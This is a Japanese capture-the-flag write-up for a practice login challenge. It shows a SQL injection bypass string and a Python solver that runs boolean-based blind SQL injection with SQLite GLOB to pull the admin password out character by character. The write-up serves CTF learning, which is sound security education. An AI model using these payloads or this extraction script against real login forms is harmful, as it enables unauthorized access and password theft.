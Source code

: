 ## Login (120pt)
> http://ctfq.u1tramarine.blue/q6/  
> https://ctfq.u1tramarine.blue/q6/

アクセスすると、簡素なログイン画面が表示される。
![](images/img1.png)

とりあえずIDは`admin`、Passは`a' OR 'a' == 'a'; --`としてSQLインジェクションしてみると、今度はこんなページが現れる。
![](images/img2.png)

つまり、`database.db`からどうにかしてadminのパスワードを引っ張り出してくる必要がある。（そのままアクセスしようとしても403を返されるため、SQLを介する必要がある）しかし、DBへの問合せ結果を出力する処理は見当たらないため、単純な`SELECT`では効果が無い。  
どうすれば良いのだろうかと詳解セキュリティコンテストを読んでいたら、Booleanベースの攻撃というものがあるらしい。`LIKE`などのゆるい文字列比較を用いて`TRUE`となる文字列を一文字ずつ探索していく、いわゆる総当たり的な手法である。なお、今回用いられているDB管理システムはsqliteなので、`GLOB`を使う。IDとPassは`POST`で送信しているので、返ってくるHTMLに`Congratulations!`が含まれていれば`TRUE`判定されたとみなすことができる。  
方針が定まったのでソルバを書く。なお、書くにあたってhttps://qiita.com/kk0128/items/3907045802c9b95e7c21 をかなり参考にさせてもらった。
```python
import sys
import requests
from string import printable

url = 'https://ctfq.u1tramarine.blue/q6/'
id_input = 'admin'
flag = ''

while True:
    for char in printable.replace('*', '').replace('?', ''):
        payload = {
            'id': id_input,
            'pass': f"a' OR pass GLOB '{flag}{char}*';"
        }
        response = requests.post(url, data=payload)

        if 'Congratulations!' in response.text:
            flag += char
            print(f'HIT, {flag}')
            payload_2 = {
                'id': id_input,
                'pass': flag
            }
            response_2 = requests.post(url, data=payload_2) # 現在のflagでログインが通るか？
            if 'Congratulations!' in response_2.text:
                sys.exit('Found a flag')    # ログイン成功=フラグ完成 として終了
```

実行してみたところ、2分30秒くらいでフラグが完成した。そして作った後になって"FLAG_"は省略できるということに気付いた。やり方次第では更にもう少し早くできるのかもしれない。